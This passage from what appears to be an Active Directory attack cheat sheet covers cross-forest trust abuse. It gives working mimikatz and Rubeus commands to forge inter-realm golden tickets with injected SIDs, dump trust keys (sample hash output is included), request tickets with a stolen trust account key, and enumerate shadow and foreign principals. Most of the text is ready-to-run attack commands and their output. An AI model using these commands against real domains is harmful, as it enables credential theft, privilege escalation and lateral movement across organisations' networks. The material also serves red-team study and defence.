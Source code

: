 2. Forge Inter-Realm TGT with extra sids. We injected sid of trusted domain users with RID > 1000. This is because most _WELL-KNOWN-SID_ is flag as _ForestSpecific_ based on the [documentation](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/55fc19f2-55ba-4251-8a6a-103dd7c66280) 
>The ForestSpecific rule is for those SIDs that are never allowed in a PAC that originates from out of the forest or from a domain that has been marked as QuarantinedWithinForest, unless it belongs to that domain.

```css
mimikatz# kerberos::golden /user:administrator /domain:contoso.local /sid:<domain-sid> /rc4:<trust-key> /service:krbtgt /target:fortress.local /sids:<victim-user-sid> /ticket:<path>\ticket.kirbi
```
3. Asktgs with the generated kirbi ticket
```powershell
Rubeus.exe asktgs /ticket:<path>\ticket.kirbi /service:HTTP/dc02.contose.local /dc:dc02.contoso.local /ptt
```

### Shadow Principal/PAM Trust
The users in current forest can be "mapped" to privileged group like Domain Admins and Enterprise Admins. Use below command to enumerate _Shadow Principal_
```powershell
Get-ADObject -Filter * -SearchBase ("CN=Shadow Principal Configuration,CN=Services," + (Get-ADRootDSE).configurationNamingContext) | select Name,member,msDS-ShadowPrincipalSid | fl
```
* `name` = Name of the shadow security principal
* `member` = member of group/user in the bastion domain
* `msds-ShadowPrincipalSid` = The SID for production domain group/user

### Foreign Principal
Foreign principal means other user(s) from trusted domain that have access to current domain resources
```powershell
# Get foreign user principals
Find-ForeignUser

# Get foreign group principals
Find-ForeignGroup
```

### Trust Account
_Note that this is not an exploit that could be escalated directly to higher privileged user. This is intend to give you a authenticated user access on another forest_
Trust Account is created upon trust initiation (domain/trust) and it appears to be a member of Domain Users. Trust accounts will hold the same password/key on both domain/forest which we can use to move laterally from forest-to-forest.
1. Get the trust account hash. This can either be obtained through [DCSync](#dcsync) or the following command to dump trust keys
```css
mimikatz# lsadump::trust /patch 
[[..snip..]]
[ Out ] KIWI.LOCAL -> RANGE.NET
    * 6/29/2022 1:05:07 PM - CLEAR   - 5e 88 f5 8e bf 01 83 8f 61 39 50 37 77 d8 ce 86 b0 90 f8 e4 b5 2e ef e2 03 dd bf 4c
        * aes256_hmac       a3edf4ac6cb5ed1583434348a67454d66e9fcd25d97c3e930c24790dbfa1d15f
        * aes128_hmac       6e362139cacfdd8956d986fc8e33f0e9
        * rc4_hmac_nt       4cc0dd338664b4208fa6a1a4a7bee224
[[..snip..]]
```
2. Request TGT for the trust account by using the key dumped (aes/rc4). _Note: this wouldn't work over NTLM authentication, only kerberos_
```powershell
# rubeus
Rubeus.exe asktgt /user:RANGE$ /rc4:4cc0dd338664b4208fa6a1a4a7bee224 /domain:kiwi.local /dc:kiwi-dc.kiwi.local /nowrap

```